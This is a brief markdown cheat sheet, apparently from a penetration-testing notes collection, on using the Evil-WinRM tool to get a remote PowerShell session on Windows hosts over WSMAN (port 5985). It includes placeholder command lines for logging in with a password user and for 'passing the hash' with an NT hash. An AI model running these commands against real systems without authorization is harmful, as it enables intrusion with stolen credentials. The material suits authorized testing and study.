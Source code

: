 # Evil-WinRM

Evil-WinRM is a tool used to get a full PowerShell RCE on Windows targets that are running services like `wsman`

```bash
evil-winrm -i TARGET_IP -u TARGET_USER
```

## Vulnerable services

### WSMAN
Defaultly runs on port 5985


## Log in with Evil-Winrm by "Passing the hash"
/!\ This only needs the second part (NTLM) of the hash  

```bash
evil-winrm -u "username" -H PUT_THE_NT_HASH_HERE -i <IP>
get powershell
```